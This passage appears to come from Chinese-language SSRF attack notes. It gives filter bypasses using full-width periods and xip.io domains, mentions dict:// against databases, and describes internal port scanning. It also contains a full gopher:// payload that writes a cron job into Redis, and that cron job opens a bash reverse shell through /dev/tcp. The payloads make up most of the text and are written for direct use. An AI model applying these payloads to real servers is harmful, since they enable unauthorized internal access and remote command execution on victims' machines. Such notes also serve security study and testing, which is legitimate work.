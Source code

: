 #### 句号绕过

```
url=http://127。0。0。1/index.php
```



#### 域名匹配绕过

比如限制必须xip.io传进来的就可以：

```
xip.io127.0.0.1.xip.io -->127.0.0.1
www.127.0.0.1.xip.io -->127.0.0.1
Haha.127.0.0.1.xip.io -->127.0.0.1
Haha.xixi.127.0.0.1.xip.io -->127.0.0.1
```



打数据库就用dict伪协议



打内网还可以用ssrf探针探测目标ip有没有开其他的网络服务，通过其他的漏洞进行触发SQL漏洞 and 1=1





==gopher协议==

协议工具链生成工具：[Gopherus](https://github.com/tarunkant/Gopherus)



一键弹bash：

```
url=gopher://127.0.0.1:6379/_*1 %0d %0a $8%0d %0aflushall %0d %0a*3 %0d %0a $3%0d %0aset %0d %0a $1%0d %0a1 %0d %0a $64%0d %0a %0d %0a %0a %0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/4444 0>&1 %0a %0a %0a %0a %0a %0d %0a %0d %0a %0d %0a*4 %0d %0a $6%0d %0aconfig %0d %0a $3%0d %0aset %0d %0a $3%0d %0adir %0d %0a $16%0d %0a/var/spool/cron/ %0d %0a*4 %0d %0a $6%0d %0aconfig %0d %0a $3%0d %0aset %0d %0a $10%0d %0adbfilename %0d %0a $4%0d %0aroot %0d %0a*1 %0d %0a $4%0d %0asave %0d %0aquit %0d %0a"
```



### 漏洞作用

#### 内网扫描可用端口及服务

```
url=http://127.0.0.1:80
...

0~65535遍历即可，查看返回码
```



#### 对内网主机和端口发送请求包攻击
